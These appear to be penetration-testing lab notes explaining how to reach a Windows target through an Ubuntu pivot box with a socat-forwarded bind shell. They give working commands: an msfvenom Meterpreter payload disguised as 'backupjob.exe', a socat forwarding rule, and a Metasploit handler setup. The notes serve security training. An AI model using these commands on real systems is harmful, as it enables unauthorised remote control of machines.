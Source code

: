 
## What is a Bind Shell?

A **bind shell** is when the **target machine (Windows)** opens up a **listening port** and waits for you (the hacker) to **connect to it**.

> Think of it like the Windows machine saying:
> 🧍‍♂️ "I’ll wait here at port 8443. If anyone connects, I’ll give them a shell."

## So What’s the Problem?

You (the attacker) **cannot connect directly** to the Windows target. But…  
You **can connect to an Ubuntu machine**, and **Ubuntu can talk to Windows**.

So we use **Socat** to forward your connection like this:
![[Pasted image 20250804155921.png]]

### Step 1: Create a Bind Shell Payload
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8443 -f exe -o backupjob.exe
```
🧠 Think: “When this file runs on Windows, it will open port 8443 and wait for a hacker to connect.”

### Step 2: Start Socat on Ubuntu
Now, you run this command **on the Ubuntu pivot box**:
```
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
If anyone talks to me on port 8080, I’ll pass that traffic to Windows on port 8443.

### Step 3: Start Metasploit Handler (on your attack machine)
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 10.129.202.64   # This is Ubuntu (the middleman)
set LPORT 8080            # This is the Socat listener
run
```

### ### Step 4: Run the Payload on Windows

Run `backupjob.exe` on the Windows host (using any method like SMB, RDP, file upload, etc.).

Once it runs:

- Windows listens on port 8443
- You (via Metasploit) connect to Ubuntu:8080
- Ubuntu forwards the connection to Windows
- 💥 You get a Meterpreter shell!